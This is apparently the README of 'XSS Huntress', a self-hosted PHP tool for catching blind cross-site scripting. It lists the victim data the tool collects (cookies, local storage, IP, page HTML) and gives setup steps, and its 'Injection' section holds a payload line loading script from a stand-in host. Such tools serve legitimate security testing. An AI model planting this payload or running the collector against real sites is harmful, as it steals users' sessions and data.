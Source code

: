 <h1 align="center">XSS Huntress</h1>

<h4 align="center">A tool for identifying XSS and Blind XSS bugs in websites.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=7-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
</p>

---

## Features

- web interface
- sends an email notification whenever a payload is fired
- data collected by client that fired payload: 
    - Time
    - URL
    - Referrer
    - IP
    - User Agent
    - Cookies
    - Local Storage
    - HTML of page that fired payload.
- reports stored in `sqlite` database


## Installation

1. Clone the repository:

```bash
git clone https://github.com/sfttw/xsshuntress.git
```

2. Navigate to the project directory:

```bash
cd xsshuntress
```

3. Install PHPMailer:

```bash
composer require phpmailer/phpmailer
```

4. Update the paths to the PHPMailer classes in `collect.php`:

```php
require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';
```

5. Update the SMTP server settings and email addresses in `collect.php`:

```php
$mail->Host = 'smtp.example.com'; // Specify main and backup SMTP servers
$mail->Username = 'user@example.com'; // SMTP username
$mail->Password = 'secret'; // SMTP password
$mail->setFrom('from@example.com', 'Mailer');
$mail->addAddress('joe@example.net', 'Joe User'); // Add a recipient
```

6. Update nginx IP restriction to admin interface

```
location ^~ /admin {
allow 127.0.0.1; #EDIT IN YOUR IP ADDRESS 
deny all;
```
## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://raw.githubusercontent.com/sfttw/xsshuntress/main/screenshot.png" />

---

## Configure domain

Using nginx, you can easily configure a vhost like this:

```
server {
        listen 80;
        listen [::]:80;

        server_name example.com;

        root /var/www/example.com;
        index collect.js;

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

        location ^~ /admin {
        allow 1.1.1.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;

        # This will inherit the allow/deny from the outer location
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                }
        }

    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem; # managed by Certbot

}
```

## Notes

1. The `collect.php` file collects the data from the client and stores it in the SQLite database. It also sends an email notification whenever a new entry is added to the database.

2. The `collect.js` file collects the data from the client and sends it to the server.

3. The `display.php` file displays the data stored in the SQLite database.


## To Do

- Improve web interface.
  
## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

[MIT](https://choosealicense.com/licenses/mit/)

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

